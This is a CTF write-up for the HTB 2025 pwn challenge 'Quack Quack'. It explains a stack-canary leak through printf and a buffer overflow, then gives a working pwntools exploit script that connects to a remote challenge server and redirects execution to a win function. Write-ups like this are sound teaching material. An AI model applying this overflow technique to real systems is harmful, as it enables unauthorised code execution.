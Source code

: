 ```yaml
---
title: Quack Quack
date: 2025-03-29T18:19:13+02:00
description: Writeup for Quack Quack [HTB Cyber Apocalypse CTF 2025]
type: writeup
author: sunbather
tags:
- pwn
draft: false
---
```

___

## Challenge Description

On the quest to reclaim the Dragon's Heart, the wicked Lord Malakar has cursed the villagers, turning them into ducks! Join Sir Alaric in finding a way to defeat them without causing harm. Quack Quack, it's time to face the Duck!

## Intuition

We can open the binary in Ghidra and see that the `main()` function calls an interesting `duckling()` function. Here is the latter's decompiled code, comments added by me:

```c
void duckling(void)
{
  long lVar1;
  char *pcVar2;
  long in_FS_OFFSET;
  char buf [102];
  
  lVar1 = *(long *)(in_FS_OFFSET + 0x28);

// [...]

  printf("Quack the Duck!\n\n> ");
  fflush(stdout);
  read(0,buf,0x66);
  pcVar2 = strstr(buf,"Quack Quack "); // <--- find "Quack Quack " in user input
  if (pcVar2 == (char *)0x0) {
    error("Where are your Quack Manners?!\n");
                    /* WARNING: Subroutine does not return */
    exit(0x520);
  }
  printf("Quack Quack %s, ready to fight the Duck?\n\n> ",pcVar2 + 0x20); // <--- print content after "Quack Quack ". Which can be used to leak
  read(0,buf + 0x20,0x6a);  // <--- start reading user input to buf+0x20 (overflow)
  puts("Did you really expect to win a fight against a Duck?!\n");
  if (lVar1 != *(long *)(in_FS_OFFSET + 0x28)) {
    __stack_chk_fail();
  }
  return;
}
```

The program does the following:

1. Reads 0x66 bytes from the user.
2. Copies it to `buf`.
3. Searches for `Quack Quack ` in it and returns in it `pcVar2`.
4. Prints content from `pcVar2+0x20`.
5. Reads 0x6a bytes into `buf+0x20`.

Because `Quack Quack ` can be found at the end of the buffer, the `printf()` call at step 4 can be used to leak the stack content, including the cookie.

Then we can use the overflow at step 5 to overwrite the return address and return to a *win* function that is provided in the binary:

```c
void duck_attack(void)
{
  ssize_t sVar1;
  long in_FS_OFFSET;
  char local_15;
  int local_14;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  local_14 = open("./flag.txt",0);
  if (local_14 < 0) {
    perror("\nError opening flag.txt, please contact an Administrator\n");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  while( true ) {
    sVar1 = read(local_14,&local_15,1);
    if (sVar1 < 1) break;
    fputc((int)local_15,stdout);
  }
  close(local_14);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

## Solution

Below is a Python script that leaks the canary and overflows the buffer to return to `duck_attack()`.

```py
#!/usr/bin/env python3

from pwn import *

#target = process("./quack_quack")
target = remote("83.136.253.25", 52011)

win = 0x0040137f

msg = b"Quack Quack "
payload = b"a" * (101 - len(msg)) + msg # put "Quack Quack " at the end to leak stack contents
target.send(payload)
target.recvuntil(b"Quack Quack ")
target.recvlines(5)
line_leak = target.recvline()
print(line_leak)
leak = b"\x00" + line_leak.split()[3][:-1] # get cookie leak and rbp

print(leak, len(leak))

payload = b"a" * 88 + leak + p64(win)[:2] + p64(win)[:2] # this is super weird because my leak included the rbp, too lazy to change it
target.send(payload)

target.interactive()

```

### Flag

`HTB{~c4n4ry_g035_qu4ck_qu4ck~_SOME_UNIQUE_ID}`

